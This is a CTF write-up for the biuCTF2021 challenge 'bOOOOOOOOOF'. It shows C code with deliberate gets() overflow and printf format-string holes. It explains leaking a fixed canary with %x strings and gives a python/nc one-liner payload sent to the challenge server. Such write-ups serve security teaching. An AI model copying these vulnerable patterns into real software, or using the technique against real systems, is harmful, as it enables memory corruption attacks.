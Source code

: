 # biuCTF2021 - bOOOOOOOOOF
## WriteUp By DirtyCOW
### Overview
First, we look at the code:  
```
#include <stdio.h>

int main(int argc, char const *argv[])
{
    long flag = 0;
    long a = SOME_INTEGER_CONSTANT;
    char pass[32] = "abcd";
    char name[32] = {0};

    printf("Enter your name - MAX length 32\n");
    gets(name);
    printf(name);

    printf("Enter your password - MAX length 32\n");
    gets(pass);

    if (a != SOME_INTEGER_CONSTANT) {
        printf("Are you trying to cause problems here? calling the police, you better run.\nMY canary can still breathe!\n");
    } else if (flag) {
        printf("biuCTF{7h15_i5_f4|<e_f149}\n");
    } else {
        printf("Wrong password...\n");
    }
}
```
We can easily see that our goal is to exploit a simple buffer overflow to change the value of *flag* to not be 0.  
But we cannot just exploit a buffer overflow here, because we have a **stack canary** here, which is a common technique to prevent buffer overflows. It is actually a special value which is saved on the top of the buffer, and later is checked to see if it has changed because of a buffer overflow. We can see that the canary isn't random or something, but it is a constant value. So if we know the value of the canary, we can simply overflow the buffer and put the original stack canary in its place, so the program will not know that there was a buffer overflow. But how can we know the value of the stack canary?  

### Format string vulnerability
The **printf** function always gets a format strin gin the first parameter, which is a string which contains format parameters (or not), which are of the form %<format_type>. The printf function treats for every format parameter as a real parameter and prints it. So, if we give printf a format string in its first parameter (for example, ```%x``` many times), the printf will think that it has real arguments to print, so it will print the values of the registers and the stack (depending on the architecture, but in any case values from the stack will finally be printed, because the number of the regusters is final), which are considered to be the arguments.

### The exploit
Now, we can actually exploit a format string to leak the value of the stack canary. At the time of the call to printf, the stack looks like that:  
|  value |   size   |
|--------|----------|
|  flag  | 8 bytes  |
|  a     | 8 bytes  |
|  pass  | 32 bytes |
|  name  | 32 bytes |  

So we can make name to be something like ```%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x```, and it will leak us the next values:  
```309176b1 0 fdde1980 5a862410 0 5a862558 f0b5ff 25207825 20782520 78252078 25207825 20782520 78252078 0 0 32```  
actually, the values ```25207825 20782520 78252078 25207825 20782520 78252078``` are the hexadecimal encoding of the string we have just entered, which has also overriden part of pass, and we know that the stack canary should sit just after that. We can see that the last printed value is 0x32, and it makes sense that it will be the value of the stack canary, because it sits just in a perfect place for that, so we will try to treat it is the stack canary and see what we got. That value sits in offset 32 from the place where pass sits in the stack, so we will add a 32 byte padding and then add the value 0x32, which we consider for now to be the stack canary, and then just add 4 bytes to override the value of flag, so we will get into the second if to print the flag.  
So after we leaked the value of the stack canary, the final exploit is:  
```python2 -c 'import struct; print ""; print "A"*32 + struct.pack("Q", 0x32) + "A"*4' | nc challenges.ctf.cs.biu.ac.il 3004```  
And finally got the flag:  
```
Enter your name - MAX length 32
Hi, !
Enter your password - MAX length 32
biuCTF{b0f_w1th_c4N4Ry?!}
```
